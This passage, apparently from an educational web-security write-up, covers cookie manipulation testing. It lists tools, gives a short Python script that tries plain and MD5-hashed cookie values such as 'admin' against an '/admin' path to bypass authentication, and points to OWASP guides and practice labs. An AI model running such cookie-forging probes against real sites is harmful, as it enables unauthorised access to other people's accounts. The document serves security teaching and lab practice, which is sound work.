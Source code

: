 ### 🔧 Advanced Testing Tools
- **🌐 Burp Suite** - Cookie manipulation and session testing
- **🦊 OWASP ZAP** - Automated cookie security scanning
- **🍪 Cookie Editor** - Browser extension for cookie manipulation
- **🔧 curl/wget** - Command-line cookie testing
- **🐍 Python requests** - Scripted cookie manipulation testing

### 🎯 Automated Testing Scripts
```python
# Cookie manipulation testing script
import requests
import hashlib

def test_cookie_manipulation(base_url, cookie_name):
    # Test boolean values
    test_values = ['true', 'false', '1', '0', 'admin', 'user']
    
    for value in test_values:
        # Test plain text
        response = requests.get(f"{base_url}/admin", 
                              cookies={cookie_name: value})
        print(f"Plain {value}: {response.status_code}")
        
        # Test MD5 hashed
        md5_value = hashlib.md5(value.encode()).hexdigest()
        response = requests.get(f"{base_url}/admin", 
                              cookies={cookie_name: md5_value})
        print(f"MD5 {value}: {response.status_code}")

# Usage
test_cookie_manipulation("http://target-site.com", "I_am_admin")
```

---

## 🔗 Learning Resources

### 📚 Educational Materials
- [OWASP Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)
- [Cookie Security Best Practices](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#security)
- [Client-Side Authentication Anti-Patterns](https://auth0.com/blog/what-is-broken-authentication/)

### 🛠️ Practice Platforms
- **DVWA** - Cookie manipulation challenges
- **WebGoat** - Session management vulnerabilities
- **Juice Shop** - Client-side authentication bypasses
- **PentesterLab** - Advanced cookie security exercises
